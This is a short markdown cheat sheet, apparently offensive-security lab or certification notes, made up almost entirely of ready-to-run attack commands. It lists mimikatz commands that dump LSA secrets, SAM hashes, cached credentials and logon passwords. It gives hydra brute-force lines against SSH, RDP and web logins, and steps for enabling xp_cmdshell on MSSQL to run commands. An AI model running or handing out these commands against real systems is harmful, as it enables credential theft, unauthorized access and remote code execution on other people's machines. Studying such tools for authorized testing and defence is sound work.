 ## Windows 

```
.\mimikatz.exe "token::elevate" "log lsadump::lsa /inject" exit
.\mimikatz.exe "token::elevate" "lsadump::secrets" exit
.\mimikatz.exe "token::elevate" "lsadump::sam" exit
.\mimikatz.exe "lsadump::sam /system:C:\windows.old\Windows\System32\SYSTEM /sam:C:\windows.old\Windows\System32\SAM" exit 
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"


```

# Password attacks

## Bruteforce

ssh
```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

rdp 

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

http-post
```
hydra -l user -P ~/wordlists/PASSWORDS/rockyou.txt 192.168.196.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

http-basic
```
hydra -l admin -P ~/wordlists/PASSWORDS/rockyou.txt -s 80 -f 192.168.196.201 http-get
```

# Databases

## MSSQL

connect and execute querries
```
netexec mssql 192.168.242.248 -u emma -p "SomersetVinyl1\!" --port 49965 -q "select @@version;
```

Enable command execution
1. connect to host `impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth`
2. `EXECUTE sp_configure 'show advanced options', 1;`
3. `RECONFIGURE;`
4. `EXECUTE sp_configure 'xp_cmdshell', 1;`
5. `RECONFIGURE;`
